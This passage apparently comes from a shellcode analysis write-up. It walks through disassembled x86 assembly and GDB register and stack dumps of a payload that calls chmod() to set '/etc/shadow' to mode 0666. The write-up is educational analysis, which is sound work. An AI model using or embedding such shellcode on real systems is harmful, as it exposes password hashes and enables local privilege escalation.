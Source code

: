 ```
0028| 0xbffff388 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00402040 in code ()
```

## chmod()

Our first chunk of assembly, which is the majority of the instructions is as follows:

```nasm
cdq				; sets edx to 0
push   0xf			; chmod() 
pop    eax			; 
push   edx			; 0
call   0x402056 <code+22>	; call code+22 and push string to stack stored in next instruction
das    				; start of "/etc/shadow" string
gs je  0x4020b1
das    
jae    0x4020b9
popa   
outs   dx,DWORD PTR fs:[esi]
ja     0x402056 <code+22>	; end of string
pop    ebx			; "/etc/shadow" into ebx
push   0x1b6			; 0666 in octal
pop    ecx			; 
int    0x80			; execute chmod()
```

We have a few instructions setting up the chmod() syscall which is defined as 15 in `/usr/include/i386-linux-gnu/asm/unistd_32.h`. Once again we can see a CALL instruction which pushes the filename being changed to the stack for later use. This is where the start of the garbage looking instructions start.  

```
[----------------------------------registers-----------------------------------]
EAX: 0xf 
EBX: 0x402000 --> 0x1efc 
ECX: 0x15 
EDX: 0x0 
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff364 --> 0x40204a ("/etc/shadow")
EIP: 0x402056 --> 0x1b6685b
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x402051 <code+17>:	popa   
   0x402052 <code+18>:	outs   dx,DWORD PTR fs:[esi]
   0x402054 <code+20>:	ja     0x402056 <code+22>
=> 0x402056 <code+22>:	pop    ebx
   0x402057 <code+23>:	push   0x1b6
   0x40205c <code+28>:	pop    ecx
   0x40205d <code+29>:	int    0x80
   0x40205f <code+31>:	push   0x1
[------------------------------------stack-------------------------------------]
0000| 0xbffff364 --> 0x40204a ("/etc/shadow")
0004| 0xbffff368 --> 0x0 
```
